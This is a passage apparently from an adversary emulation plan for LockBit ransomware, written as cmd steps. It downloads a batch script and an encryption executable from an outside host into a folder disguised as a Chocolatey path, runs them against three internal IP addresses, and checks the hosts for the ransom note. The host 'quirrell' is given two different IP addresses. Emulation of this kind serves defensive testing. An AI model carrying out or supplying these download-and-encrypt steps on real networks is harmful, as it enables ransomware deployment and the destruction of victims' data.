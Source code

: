 * If ThunderShell **is not** available:
  * Open an elevated command prompt and run the following command to download
  the alternative LockBit batch script to `quirrell (10.111.9.202)`:

    ```cmd
    md C:\ProgramData\chocolatey\lib\BlockLit\tools\
    curl http://1nvisibility-cl0ak.net/files/bl.bat -o C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.bat
    ```

  * Enter the following command to download the minimal LockBit encryption
  executable to `quirrell (10.99.9.202)`:

    ```cmd
    curl http://1nvisibility-cl0ak.net/files/minimal.exe -o C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.min.exe
    ```

  * Enter the following command to execute the alternative batch script:

    ```cmd
    C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.bat C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.min.exe 10.111.9.200 10.111.9.205 10.111.9.202
    ```

* Verify that the hosts were encrypted by checking the presence of the
`sk12uyqzk.README.txt` ransom note in directories.

* Verify activity failure or success by looking at terminal output and at the
`C:\Windows\temp\bl.bat.log` log file on affected hosts.
